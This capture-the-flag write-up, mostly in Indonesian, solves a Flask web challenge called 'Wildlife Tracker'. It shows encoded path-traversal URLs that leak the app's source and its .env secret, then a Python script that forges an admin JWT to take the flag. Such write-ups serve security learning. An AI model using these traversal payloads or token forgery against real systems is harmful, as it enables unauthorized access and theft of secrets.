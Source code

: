 ```yaml
---
title: "Wildlife Tracker"
description: ""
pubDate: 2025-07-13 21:00
category: "Web Exploitation"
event: "FIT Competition"
heroImage: ""
---
```


## Wildlife Tracker

> The "Wildlife Tracker" promises to help keep tabs on various species. However, every good system has its blind spots, and this one might be no exception. Can you exploit its nuances and gain unauthorized access to its deeper operations?

Diberikan sebuah link website

Di situ ada field untuk mengisi sesuatu, setelah coba lakukan xss, ssti tapi tidak work, berarti bukan itu intended nya. Lalu setelah membuka di bagian

http://134.209.102.23:8082/about, ditemukan seperti ini

http://134.209.102.23:8082/?read_file=wildlife_info.txt

Ada parameter endpoint, jadi bisa directory transversal, setelah coba berkali kali, akhirnya kita menemukan formula untuk bypass nya. Karena setelah cek etc/passwd no ingfo, jadi coba guessing supaya dapet konfigurasi web.

Dan dapet cik lesgoo

http://134.209.102.23:8082/?read_file=/%2e%2e%2f/%2e%2e%2f/%2e%2e%2f/%2e%2e%2fapp.py

```python
from flask import Flask, request, render_template, make_response, send_file
import os
import jwt
from dotenv import load_dotenv

load_dotenv()

app = Flask(__name__)

app.config['SECRET_KEY'] = os.getenv('SECRET_KEY',
'default_fallback_ctf_key_NOT_SECURE_IN_PROD')

JWT_ALGORITHM = "HS256"

if not app.config['SECRET_KEY'] or app.config['SECRET_KEY'] == \
'default_fallback_ctf_key_NOT_SECURE_IN_PROD':
print("WARNING: SECRET_KEY not set in .env or environment variables. Using \
a default fallback key.")
print("This default key can be used if .env is not found, making the \
challenge easier if known.")

basedir = os.path.abspath(os.path.dirname(__file__))

FLAG_FILE = os.path.join(os.path.dirname(basedir), 'forbidden', 'flag.txt')

def is_safe(input_string):
"""
Checks if the input string contains potentially dangerous HTML or script
tags.
This function specifically targets '<script' and the combination of 'on'
and '='.
The CTF challenge solution leverages JavaScript pseudo-protocol with encoded
characters to bypass this particular filter.
"""
input_lower = input_string.lower()
if "<script" in input_lower:
return False
if "on" in input_lower and "=" in input_lower:
return False
return True

@app.route('/', methods=['GET', 'POST'])
def index():
"""
Handles the main page where users can submit wildlife observations.

It also contains the LFI vulnerability, triggered by a 'read_file' query
parameter.
If 'read_file' is present, it attempts to read and display the file.
Otherwise, it processes observation submissions.
"""
filename_to_read = request.args.get('read_file')
if filename_to_read:
base_dir = os.getcwd()

file_path = os.path.join(base_dir, filename_to_read)
abs_file_path = os.path.abspath(file_path)

if not abs_file_path.startswith(base_dir):
return "Access denied: Path traversal detected!", 403

try:
return send_file(abs_file_path, mimetype='text/plain')
except FileNotFoundError:
return f"File '{filename_to_read}' not found.", 404
except IsADirectoryError:
return f"'{filename_to_read}' is a directory, not a file.", 400
except Exception as e:
return f"Error reading file: {e}", 500

observation = ""
if request.method == 'POST':
observation = request.form.get('observation', '')
if not is_safe(observation):
observation = "Your observation was flagged as potentially \
disruptive and has been filtered. Try again with safe content!"

return render_template('index.html', observation=observation)

@app.route('/admin_dashboard')
def admin_dashboard():
"""
Handles access to the administrative dashboard.
Access is granted only if a valid JWT 'admin_token' cookie is present and
verified.
The flag is loaded dynamically from an external file after authentication.
"""
admin_token_cookie = request.cookies.get('admin_token')
is_admin_authorized = False
flag = "Flag not found or unauthorized."

if admin_token_cookie:

try:
token_data = jwt.decode(
admin_token_cookie,
app.config['SECRET_KEY'],
algorithms=[JWT_ALGORITHM]
)

if token_data.get('role') == 'admin' and \
token_data.get('authorized') == True:
is_admin_authorized = True
except jwt.ExpiredSignatureError:
print("Admin token expired.")
is_admin_authorized = False
except jwt.InvalidTokenError as e:
print(f"Invalid admin token: {e}")
is_admin_authorized = False
except Exception as e:
print(f"Unexpected error processing token: {e}")
is_admin_authorized = False

if is_admin_authorized:
try:
with open(FLAG_FILE, 'r') as f:
flag = f.read().strip()
except FileNotFoundError:
print(f"ERROR: Flag file not found at {FLAG_FILE}")
flag = "CTF Flag file missing on server."
except Exception as e:
print(f"ERROR: Could not read flag file: {e}")
flag = "Error loading CTF flag."

return render_template('admin.html', flag=flag)
else:
response = make_response(render_template('unauthorized.html'), 401)
response.headers['WWW-Authenticate'] = 'Basic realm="Admin Required"'
return response

@app.route('/about')
def about():
return render_template('about.html')

@app.route('/observations')
def observations():
return render_template('observations.html')

@app.route('/unauthorized')
def unauthorized():
return render_template('unauthorized.html')

if __name__ == '__main__':
app.run(debug=False, host='0.0.0.0', port=8082)
```

Ok dari program tersebut kita bisa tau algoritma buat token admin login nya, tapi kita belum tau secret key buat token nya, dari situ diketahui kalo secret disimpan di .env

Kita coba akses file env nya melalui teknik yang sama

http://134.209.102.23:8082/?read_file=/%2e%2e%2f/%2e%2e%2f/%2e%2e%2f/%2e%2e%2f.env

```
SECRET_KEY=wildlife- 2025 - fit-challenge-secret
```

Karena udah dapet semua tinggal kita buat program untuk generate token berdasarkan algoritma dan secret key tersebut.

```python
import jwt
import datetime

# From app.py
SECRET_KEY = "wildlife-2025-fit-challenge-secret"
JWT_ALGORITHM = "HS256"

def generate_admin_token():
payload = {
'role': 'admin',
'authorized': True,
'exp': datetime.datetime.utcnow() + datetime.timedelta(hours=1) # Token
expires in 1 hour
}
token = jwt.encode(payload, SECRET_KEY, algorithm=JWT_ALGORITHM)
return token

if __name__ == '__main__':
admin_token = generate_admin_token()
print(f"Generated Admin Token: {admin_token}")
```

Setelah dapet cookies token nya tinggal set dan akses /admin_dashboard

### Flag:

```
FITUKSW{b10d1v3rsqty_1n_th3_w1ld}
```
